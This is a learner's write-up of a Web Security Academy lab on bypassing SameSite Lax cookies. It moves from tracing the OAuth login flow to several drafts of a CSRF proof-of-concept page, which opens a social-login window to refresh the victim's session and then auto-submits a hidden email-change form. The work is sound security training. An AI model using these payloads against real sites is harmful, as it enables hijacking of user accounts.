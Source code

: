 # [CSRF] Lab: SameSite Lax bypass via cookie refresh (1)

---

![Untitled](%5BCSRF%5D%20Lab%20SameSite%20Lax%20bypass%20via%20cookie%20refresh%20%2082942c1956964fe38a53375a1d85985a/Untitled.png)

- [ ]  Look for gadget to refresh user cookie
- [ ]  find a way to use that gadget by opening a new window within the victims browser so we can refresh there cookie, so the Lax will not protect against post request within the first 120 seconds
- [ ]  test exploit
- [ ]  make sure works then send to victim.

---

![Untitled](%5BCSRF%5D%20Lab%20SameSite%20Lax%20bypass%20via%20cookie%20refresh%20%2082942c1956964fe38a53375a1d85985a/Untitled%201.png)

so when going to my account when we arent logged in we’re redirected to this page with a strange path name. 

This is the entire transaction of login: 

![Untitled](%5BCSRF%5D%20Lab%20SameSite%20Lax%20bypass%20via%20cookie%20refresh%20%2082942c1956964fe38a53375a1d85985a/Untitled%202.png)

**me trying to understand what is going on here:** 

so the 0Auth Callback is what set the final session cookie that we will use when navigating the site: 

![Untitled](%5BCSRF%5D%20Lab%20SameSite%20Lax%20bypass%20via%20cookie%20refresh%20%2082942c1956964fe38a53375a1d85985a/Untitled%203.png)

as you can see when getting my account: 

![Untitled](%5BCSRF%5D%20Lab%20SameSite%20Lax%20bypass%20via%20cookie%20refresh%20%2082942c1956964fe38a53375a1d85985a/Untitled%204.png)

and changing email : 

![Untitled](%5BCSRF%5D%20Lab%20SameSite%20Lax%20bypass%20via%20cookie%20refresh%20%2082942c1956964fe38a53375a1d85985a/Untitled%205.png)

All the cookies match. 

right now I'm going to rule out all of the 0Auth pages as being possible gadgets we can use to refresh our cookie since all of them contain random values that we cant guess in the directory path. 

![Untitled](%5BCSRF%5D%20Lab%20SameSite%20Lax%20bypass%20via%20cookie%20refresh%20%2082942c1956964fe38a53375a1d85985a/Untitled%206.png)

what if we request this page? 

since it is setting the _interaction cookies so it removes the guessable value..

**SO I found that if we simply hit the logout button then go back to my-account the website begins resetting our session cookie once again. and issues and refreshes it for us in a logged in state.** 

- SO ill get to make the victim make request to `/logout` then request `/my-account`  then let it reset the session cookie then ill make the request to change the email.

![Untitled](%5BCSRF%5D%20Lab%20SameSite%20Lax%20bypass%20via%20cookie%20refresh%20%2082942c1956964fe38a53375a1d85985a/Untitled%207.png)

**URLS**

- LOGOUT: [https://0abf006004adafd0816d7532006d00b6.web-security-academy.net/logout](https://0abf006004adafd0816d7532006d00b6.web-security-academy.net/logout)
- My account : [https://0abf006004adafd0816d7532006d00b6.web-security-academy.net/my-account](https://0abf006004adafd0816d7532006d00b6.web-security-academy.net/my-account)
- social-login:
- auth: [https://oauth-0aee007a04bfafda818a73a302550003.oauth-server.net/auth?client_id=qrpho708nqmiv59fxvqds&redirect_uri=https://0abf006004adafd0816d7532006d00b6.web-security-academy.net/oauth-callback&response_type=code&scope=openid profile email](https://oauth-0aee007a04bfafda818a73a302550003.oauth-server.net/auth?client_id=qrpho708nqmiv59fxvqds&redirect_uri=https://0abf006004adafd0816d7532006d00b6.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email)
- other: [https://oauth-0aee007a04bfafda818a73a302550003.oauth-server.net/auth](https://oauth-0aee007a04bfafda818a73a302550003.oauth-server.net/auth?client_id=qrpho708nqmiv59fxvqds&redirect_uri=https://0abf006004adafd0816d7532006d00b6.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email)

**Decided do some more testing found we can repeat this request and get new session cookie without needing to log the user out:** 

![Untitled](%5BCSRF%5D%20Lab%20SameSite%20Lax%20bypass%20via%20cookie%20refresh%20%2082942c1956964fe38a53375a1d85985a/Untitled%208.png)

URL TO REPEAT REQUEST: [http://burpsuite/repeat/3/c7mal28deldojcja6y7k2lcz647otgez](http://burpsuite/repeat/3/c7mal28deldojcja6y7k2lcz647otgez)

but with these parameter I wonder if it will work for only my account which is most likely the situation but what if I request `/social-login` again? 

`/social-login` sends me to that page where it request the 0Auth call back to refresh the session cookie. 

```jsx
<script>
    window.onclick = () => {
        window.open('https://0abf006004adafd0816d7532006d00b6.web-security-academy.net/social-login');
        // Delay form submission by 2 seconds (2000 milliseconds)
        setTimeout(() => {
            document.forms[0].submit();
        }, 10000);
    }
</script>

<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0abf006004adafd0816d7532006d00b6.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="testing&#64;chaningEmail&#46;ca" />
      <input type="submit" value="Submit request" style="display:none;" /> <!-- Hide the submit button -->
    </form>
    <script>
      history.pushState('', '', '/');
      // Removed the auto-submit to control it via the onclick event
    </script>
  </body>
</html>
```

this worked by only by chance: 

**NEW SCRIPT:** 

```jsx
<script>
    window.onclick = () => {
        window.open('https://0abf006004adafd0816d7532006d00b6.web-security-academy.net/social-login')
    }
    setTimeout(() => {
        window.location.href("https://0abf006004adafd0816d7532006d00b6.web-security-academy.net/my-account/change-email",);
        window.location.reload();
        document.forms[0].submit();
        }, 6000); // Delay redirection for 6 seconds
    
</script>

<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="" method="POST">
      <input type="hidden" name="email" value="testing&#64;chaningEmail&#46;ca" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
    </script>
  </body>
</html>

```

using the replace function to refresh and change page to change-email

**FINAL:** 

```jsx
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aec003104a0f1098261711e004e0076.web-security-academy.net/change-email" method="POST">
      <input type="hidden" name="email" value="testing&#64;chaningEmail&#46;ca" />
      <input type="submit" value="Submit request" style="display:none;" /> <!-- Hide the submit button -->
    </form>
    <script>

        window.onclick = () => {
        window.open('https://0aec003104a0f1098261711e004e0076.web-security-academy.net/social-login');
        // Delay form submission by 2 seconds (2000 milliseconds)
   
        
      
       // Removed the auto-submit to control it via the onclick event
       setTimeout(() => {
            document.forms[0].submit();
        }, 10000);
    }
    </script>
  </body>
</html>
```

## My own custom script:

```jsx
<script>
    window.onclick = () => {
        window.open('https://0aec003104a0f1098261711e004e0076.web-security-academy.net/social-login');

    }
</script>

<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
<script> window.reload(); </script>
    <form action="https://0aec003104a0f1098261711e004e0076.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="testing&#64;chaningmail&#46;ca" />
      <input type="submit" value="Submit request" style="display:none;" /> <!-- Hide the submit button -->
    </form>
    <script>
       setTimeout(() => {
   
            document.forms[0].submit();
        }, 12000);
      // Removed the auto-submit to control it via the onclick event
    </script>
  </body>
</html>
```

**NOTE: we need the reload to load the page again with all new values such as a updated session cookie to post.** 

![Untitled](%5BCSRF%5D%20Lab%20SameSite%20Lax%20bypass%20via%20cookie%20refresh%20%2082942c1956964fe38a53375a1d85985a/Untitled%209.png)